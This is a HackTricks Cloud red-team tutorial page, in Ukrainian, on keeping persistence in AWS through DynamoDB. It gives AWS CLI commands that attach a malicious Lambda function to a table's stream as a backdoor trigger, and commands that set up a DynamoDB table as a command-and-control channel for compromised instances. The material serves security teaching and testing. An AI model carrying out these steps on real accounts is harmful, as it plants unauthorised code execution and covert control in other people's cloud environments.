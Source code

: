 # AWS - DynamoDB Persistence

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Експерт з червоної команди HackTricks AWS)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

### DynamoDB

Для отримання додаткової інформації перейдіть за посиланням:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Тригери DynamoDB з Lambda Backdoor

Використовуючи тригери DynamoDB, атакувач може створити **приховану задню двері**, асоціюючи зловмисну функцію Lambda з таблицею. Функція Lambda може бути запущена при додаванні, зміні або видаленні елемента, що дозволяє атакувачеві виконувати довільний код в межах облікового запису AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Для збереження постійності атакувальник може створювати або змінювати елементи в таблиці DynamoDB, що спричинить виклик зловмисної функції Lambda. Це дозволяє атакувальнику виконувати код у межах облікового запису AWS без прямої взаємодії з функцією Lambda.

### DynamoDB як канал C2

Атакувальник може використовувати таблицю DynamoDB як **канал керування та контролю (C2)**, створюючи елементи, що містять команди, та використовуючи компрометовані екземпляри або функції Lambda для отримання та виконання цих команд.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```

Компрометовані екземпляри або функції Lambda можуть періодично перевіряти таблицю C2 на наявність нових команд, виконувати їх і за потреби повідомляти результати назад до таблиці. Це дозволяє зловмиснику зберігати стійкість і контроль над компрометованими ресурсами.
